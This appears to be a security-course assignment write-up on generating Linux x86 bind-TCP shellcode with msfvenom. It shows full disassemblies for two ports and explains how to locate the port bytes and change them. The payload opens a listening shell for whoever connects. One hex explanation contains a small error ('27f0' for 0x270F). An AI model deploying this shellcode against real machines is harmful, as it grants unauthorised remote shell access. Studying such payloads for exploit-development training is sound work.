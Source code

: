# Assignment 1

## What to do 

• Create a Shell_Bind_TCP shellcode 

   – Binds to a port 

   – Execs Shell on incoming connection 

• Port number should be easily configurable

## Solution

The easiest solution is to obtain the disassembled code from the bind_tcp_shell from Metasploit.

      sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=8888 -b "\x00" -i 0 -f raw |ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  5B                pop ebx
      00000010  5E                pop esi
      00000011  52                push edx
      00000012  68020022B8        push dword 0xb8220002
      00000017  6A10              push byte +0x10
      00000019  51                push ecx
      0000001A  50                push eax
      0000001B  89E1              mov ecx,esp
      0000001D  6A66              push byte +0x66
      0000001F  58                pop eax
      00000020  CD80              int 0x80
      00000022  894104            mov [ecx+0x4],eax
      00000025  B304              mov bl,0x4
      00000027  B066              mov al,0x66
      00000029  CD80              int 0x80
      0000002B  43                inc ebx
      0000002C  B066              mov al,0x66
      0000002E  CD80              int 0x80
      00000030  93                xchg eax,ebx
      00000031  59                pop ecx
      00000032  6A3F              push byte +0x3f
      00000034  58                pop eax
      00000035  CD80              int 0x80
      00000037  49                dec ecx
      00000038  79F8              jns 0x32
      0000003A  682F2F7368        push dword 0x68732f2f
      0000003F  682F62696E        push dword 0x6e69622f
      00000044  89E3              mov ebx,esp
      00000046  50                push eax
      00000047  53                push ebx
      00000048  89E1              mov ecx,esp
      0000004A  B00B              mov al,0xb
      0000004C  CD80              int 0x80

Once we have it, we need to find the place where the PORT is injected. We locate it by changing the LPORT variable when running metasploit and comparing both outputs.

      sudo msfvenom -p linux/x86/shell_bind_tcp LPORT=9999 -b "\x00" -i 0 -f raw |ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  5B                pop ebx
      00000010  5E                pop esi
      00000011  52                push edx
      00000012  680200270F        push dword 0xf270002
      00000017  6A10              push byte +0x10
      00000019  51                push ecx
      0000001A  50                push eax
      0000001B  89E1              mov ecx,esp
      0000001D  6A66              push byte +0x66
      0000001F  58                pop eax
      00000020  CD80              int 0x80
      00000022  894104            mov [ecx+0x4],eax
      00000025  B304              mov bl,0x4
      00000027  B066              mov al,0x66
      00000029  CD80              int 0x80
      0000002B  43                inc ebx
      0000002C  B066              mov al,0x66
      0000002E  CD80              int 0x80
      00000030  93                xchg eax,ebx
      00000031  59                pop ecx
      00000032  6A3F              push byte +0x3f
      00000034  58                pop eax
      00000035  CD80              int 0x80
      00000037  49                dec ecx
      00000038  79F8              jns 0x32
      0000003A  682F2F7368        push dword 0x68732f2f
      0000003F  682F62696E        push dword 0x6e69622f
      00000044  89E3              mov ebx,esp
      00000046  50                push eax
      00000047  53                push ebx
      00000048  89E1              mov ecx,esp
      0000004A  B00B              mov al,0xb
      0000004C  CD80              int 0x80

We can see that the position where the code is different is 

      00000012  68020022B8        push dword 0xb8220002 (b822 in litte endian is 22b8 which is 8888 in decimal)

      00000012  680200270F        push dword 0xf270002 (0f27 in litte endian is 27f0 which is 9999 in decimal)

So, we only need to modify this line every time we want to change the listening port. 

To do that easily, you can use compile_bind_shell.sh. It asks to the user the filename and the port that will be set to the final binary.

